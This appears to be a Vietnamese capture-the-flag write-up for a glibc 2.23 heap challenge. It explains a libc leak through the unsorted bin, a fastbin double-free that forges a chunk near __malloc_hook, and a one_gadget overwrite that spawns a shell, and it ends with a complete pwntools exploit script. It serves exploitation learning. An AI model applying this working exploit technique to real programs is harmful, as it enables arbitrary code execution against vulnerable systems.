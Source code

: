 # Heap_Exploit - Heap2

# 1. Xem thông tin file

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
pwn2_df_patched: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.23.so, for GNU/Linux 3.2.0, BuildID[sha1]=448d3beedfd5ae424f8d857ba8b2e06eb7e09591, not stripped
```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
RUNPATH:  b'.'
```

Full bảo vệ được bật. Kế đến sử dụng Ida Pro 64 bits

Sửa lại file IDA ta có hàm main():

![main.png](images/main.png)

Ở đây ta có 4 options dùng để khai thác bao gồm: `createHeap`, `showHeap`, `editHeap`, `exit`

# 2. Phân tích yêu cầu

ở bài này không có hàm get_shell hay get_flag vì vậy chúng ta phải tự tạo shell, kiếm thử one_gadget:

![one_gadget.png](images/one_gadget.png)

Do one_gadget ở bài này yêu cầu ít -> `one_gadget`

# 3. Khai thác

Đầu tiên chúng ta sẽ tạo một vài chunks rồi free nó:

```
create(0, 0x80, b"1"*0x80) # tạo khối bộ nhớ có kích thước 0x80 bytes
create(1, 0x80, b"2"*0x80) # tạo khối bộ nhớ có kích thước 0x80 bytes
free(0) # giải phóng khối bộ nhớ vừa tạo
```

Khi đó heap của chúng ta sẽ như sau:

![chunk1.png](images/chunk1.png)

Vì sao khi free thì địa chỉ chunk đó không lưu trên fastbins?

Vì khi một khối nhớ được giải phóng, chương trình sẽ thêm khối đó vào danh sách các khối nhớ trống để sử dụng cho các yêu cầu cấp phát khác. 

Fastbin là một trong những danh sách này, nó được dùng để quản lý các khối nhớ nhỏ và có kích thước cố định. Chương trình này sử dụng 'libc.2.23' nên có chunk max là 0x80 bytes

Nếu chunk heap cấp phát cao hơn max kích thước mà fastbin có 

->rồi sau đó nó được giải phóng, thông tin về chunk heap đó sẽ được ghi vào metadata của chunk heap, và sau đó được lưu trữ trong biến global 'main_arena'.

Từ địa chỉ 'main_area' trên chunk heap, ta leak được địa chỉ libc_base và từ đó tính được 'malloc_hook' cũng như 'one_gadget':

```
show(0)
p.recvuntil(b"Data = ")
libc = int.from_bytes(p.recv(6),"little") -3783544
print("Leak: ", hex(libc))
malloc_hook = libc + 3783440
print("Malloc: ",hex(malloc_hook))
og = libc + 0x3f3d6
og2 = libc + 0x3f42a
og3 = libc + 0xd5bf7
```

Tiếp theo chúng ta tạo 2 chunk rác rồi lợi dụng lỗi `double-free`:

```
create(2, 0x68, b"a"*8)
create(3, 0x68, b"b"*8)
free(2)
free(3)
free(2)
```
Tại sao phải free(3) rồi mới lại free(2) lần nữa?

Vì khi ta free() 2 lần chunk cuối thì chương trình sẽ bị lỗi in ra màn hình : 

![console.png](images/console.png)

Sau khi free() 3 lần chúng ta nhận được giá trị của fastbin 0x70: 

![fast_bin.png](images/fast_bin.png)

Vì khi free() 1 chunk có size nằm trong khoảng 0x70 thì sẽ được lưu địa chỉ trong fastbin 0x70 nhưng do ta free(2) 2 lần khiến địa chỉ này xuất hiện 2 lần trong fastbin 0x70.

Tiếp sau đó, ta tạo 1 chunk để xuất hiện `malloc_hook` trong fastbin để sau này chúng ta ghi đè:

```
create(4,0x68,p64(malloc_hook-35))
```

Ở đây là `malloc_hook-35`. Hãy nhìn vào fake_chunk định tạo:

![fake.png](images/fake.png)

Ở vị trí này chúng ta có thể tạo 1 fake chunk với size '0x7f' vì nó thuộc đoạn fastbin 0x70 để sau này ta có thể ghi vào.

Nhìn vào fastbin khi đó: 

![bins.png](images/bins.png)

Nơi ta cần ghi đè đó là `malloc_hook-35` ở vị trí thứ 3

-> tạo thêm 2 fake chunk với size 0x68 bytes.

```
create(5,0x68,b"C"*0x8)
create(6,0x68,b"D"*8)
```

Ok! Giờ việc còn lại của ta là tạo 1 chunk mới vào địa chỉ thứ 3 của fastbin 0x70.

```
payload = b"a"*19 + p64(og3)
create(7,0x68,payload)
```

Tạo sao lại là 19 bytes rác trước khi ghi `one_gadget` vào?

![hook.png](images/hook.png)

Do nơi ta ghi vào cách giá trị của `malloc_hook` là 0x19 .

Nhìn vào điều kiện `one_gadget`

![og.png](images/og.png)

Và check stack sau đó: 

![og1.png](images/og1.png)

Khi ta double free 1 chunk sẽ gây lỗi và gọi malloc và chạy đến `one_gadget` trong `malloc_hook`

```
free(5)
free(5)
```

Vậy là lấy được shell.

# Full code:

```
from pwn import*
context.log_level       = "DEBUG"
context.arch            = "amd64"

elf = context.binary = ELF('./pwn2_df_patched', checksec=False)

p = process("./pwn2_df_patched")

#gdb.attach(p, gdbscript='''
#vis
#''')

def create(index,size,data):
	p.sendlineafter(b">", b"1")
	p.sendlineafter(b"Index:", str(index))
	p.sendlineafter(b"Input size:", str(size))
	p.sendafter(b"Input data:", data)

def free(index):
	p.sendlineafter(b">", b"4")
	p.sendafter(b"Input index:", str(index)) 

def show(index):
	p.sendlineafter(b">", b"2")
	p.sendlineafter(b"Index:", str(index))


def edit(index,data):
	p.sendlineafter(b">", b"3")
	p.sendlineafter(b"Input index:", str(index))
	p.sendline(data)


create(0, 0x80, b"1"*0x80) # tạo khối bộ nhớ có kích thước 0x80			do fastbin max = 0x80 bytes => free -> unsortedbin
create(1, 0x80, b"2"*0x80) # tạo khối bộ nhớ có kích thước 0x80
free(0) # giải phóng khối bộ nhớ vừa tạo

show(0)
p.recvuntil(b"Data = ")
libc = int.from_bytes(p.recv(6),"little") -3783544
print("Leak: ", hex(libc))
malloc_hook = libc + 3783440
print("Malloc: ",hex(malloc_hook))
og = libc + 0x3f3d6
og2 = libc + 0x3f42a
og3 = libc + 0xd5bf7

create(2, 0x68, b"a"*8)
create(3, 0x68, b"b"*8)
free(2)
free(3)
free(2)

create(4,0x68,p64(malloc_hook-35))
create(5,0x68,b"C"*0x8)
create(6,0x68,b"D"*8)

payload = b"a"*19 + p64(og3)
create(7,0x68,payload)

free(5)
free(5)


#p.sendlineafter(b">",payload)
p.interactive()
```


